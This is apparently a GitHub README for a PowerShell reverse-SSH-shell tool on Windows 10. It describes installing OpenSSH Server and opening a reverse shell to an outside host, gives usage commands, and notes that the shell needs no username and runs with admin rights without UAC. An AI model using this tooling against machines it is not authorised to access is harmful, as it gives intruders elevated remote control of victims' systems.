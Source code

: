 # lol-reverseSSHell
Living Off the LAN Reverse Shell over SSH

This script is intended to make working with SSH reverse shells easier on Windows10. It will install OpenSSH Server (if missing) on Windows 10 via WindowsCapability. Then it will copy the sshd_config file, SSH private key, and authorized_keys file to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Unix vs Windows Reverse SSH Shell Differences & the Interesting Security Implications for Windows
-------------------------------------------------------------------------------------------------
Running list as I do research: 
* Unknown usernames are ok - Once you have a shell, Windows does NOT require knowing the username. A simple call to localhost will connect to a shell under the context of the user that initiated it. 
  --- Windows Example --- ssh localhost -p <localport>   
  --- Unix Example ------ ssh user123@localhost -p <localport> 
* Admin privleges - Because the shell is ran using an admin PS promt, your shell will have admin privleges without ever knowing the user's admin password. No sudo commands or UAC to prevent elevated privleges. Which means you can modify system files without issue.  

